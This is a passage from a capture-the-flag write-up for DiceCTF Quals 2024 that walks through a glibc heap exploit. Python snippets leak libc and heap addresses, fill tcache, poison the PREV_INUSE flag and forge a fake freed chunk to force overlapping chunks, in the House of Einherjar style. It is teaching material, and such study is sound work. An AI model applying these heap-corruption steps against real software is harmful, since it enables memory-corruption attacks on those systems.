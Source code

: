 ```python
free(b)

b = alloc(0xf8, "B" * 0xf8)
d = alloc(0xf8, "D" * 0xf8)
```

In this code:

- Chunk **a** is used to obtain a libc leak. Upon freeing it, it will move to the unsorted bin, allowing us to extract a libc leak.
- Both chunks **b** and **d** are employed to acquire a heap leak. Upon freeing them, they will enter tcache 0x100, enabling us to obtain a heap leak.

The current state of the heap is as follows:

{{< figure src="/img/dicectf_quals_2024/heap_1.png" position="left" caption="Heap after leaks" captionPosition="left">}}

{{< figure src="/img/dicectf_quals_2024/heap_2.png" position="left" caption="Heap after last allocations" captionPosition="left">}}

In our scenario, the concept of the **House of Einherjar** is applied to manipulate the `PREV_INUSE` flag in the metadata of the **d** chunk, forcing chunk consolidation. This approach allows us to obtain a larger misaligned chunk and achieve chunk overlapping.

Following the technique, the initial step involves filling the *tcache 0x100* to ensure that **d** is directed to the unsorted bin upon freeing.

```python
trash = []

for i in range(0x9):
    trash.append(alloc(0xf8, b"n4slab"))

for chunk in trash:
    free(chunk)
``` 

The current state of the heap is as follows:

{{< figure src="/img/dicectf_quals_2024/heap_4.png" position="left" caption="Allocated chunks" captionPosition="left">}}

{{< figure src="/img/dicectf_quals_2024/heap_3.png" position="left" caption="Tcache 0x100 filled" captionPosition="left">}}

{{< figure src="/img/dicectf_quals_2024/heap_5.png" position="left" caption="Deallocated chunks" captionPosition="left">}}

Next, we poison the `PREV_INUSE` flag of **d** and generate a fake but valid freed chunk within **c**. 

```python
tok(c, b"\x01")

free(c)

fake_freed_chunk = flat(
    p64(0x100),
    p64(0x30),
    p64(heap+96),
    p64(heap+96),
    b"K" * (40 - 8 - 8 - 8), # 40 (total size) - 8 (prev size) - 8 (fd) - 8 (bck) 
    p64(0x30)
) 

c = alloc(0x128, b"C" * (0x128 - 0x38) + fake_freed_chunk)

free(d)
```